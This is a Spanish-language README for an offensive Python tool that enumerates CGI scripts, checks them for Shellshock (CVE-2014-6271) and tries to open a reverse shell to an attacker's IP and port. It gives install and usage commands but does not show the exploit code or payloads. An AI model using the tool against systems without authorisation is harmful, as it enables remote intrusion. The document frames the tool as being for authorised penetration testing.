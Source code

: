 # Shellshock Scanner y Explotador

Este script de Python es una herramienta para detectar y explotar la vulnerabilidad Shellshock (CVE-2014-6271) en servidores web que utilizan scripts CGI.

## Descripción

Shellshock es una vulnerabilidad crítica que afecta a la shell Bash y permite a un atacante ejecutar comandos arbitrarios a través de variables de entorno. Esta herramienta automatiza:

- La detección de scripts CGI accesibles en el servidor objetivo
- La verificación de vulnerabilidad Shellshock en cada script encontrado
- La explotación para obtener una shell reversa

## Requisitos

La herramienta requiere las siguientes dependencias:
- Python 3
- gobuster
- curl
- netcat (nc)

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/usuario/shellshock-scanner.git
cd shellshock-scanner

# Hacer el script ejecutable
chmod +x shellshock_scanner.py

# Verificar dependencias (el script comprobará automáticamente)
sudo apt install gobuster curl netcat-traditional
```

## Uso

### Modo interactivo (recomendado)

Simplemente ejecuta el script sin argumentos y seguirás los pasos interactivos:

```bash
./shellshock_scanner.py
```

El script te solicitará:
- IP del servidor objetivo
- Tu IP para la shell reversa
- Puerto para la shell reversa (por defecto: 7777)
- Ruta a un diccionario para la fase de enumeración (opcional)

### Modo con argumentos

También puedes ejecutar el script con argumentos específicos:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --attacker-port 4444 --wordlist /usr/share/wordlists/dirb/common.txt
```

Para probar un script CGI específico:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --cgi-script test.cgi
```

## Proceso de funcionamiento

1. **Verificación de dependencias**: El script comprueba que todas las herramientas necesarias estén instaladas.
2. **Enumeración**: Utiliza gobuster para encontrar scripts CGI en el directorio `/cgi-bin/` del servidor.
3. **Detección**: Verifica la vulnerabilidad Shellshock en cada script encontrado.
4. **Explotación**: Para los scripts vulnerables, intenta obtener una shell reversa.

## Características adicionales

- Creación automática de un wordlist básico si no se encuentra ninguno.
- Métodos alternativos de detección si gobuster falla.
- Múltiples payloads para aumentar las probabilidades de éxito.
- Comprobación manual de scripts CGI específicos.

## Consideraciones legales

Esta herramienta está diseñada únicamente para fines educativos y de pruebas de penetración autorizadas. El uso de esta herramienta contra sistemas sin permiso explícito es ilegal y puede resultar en consecuencias legales.
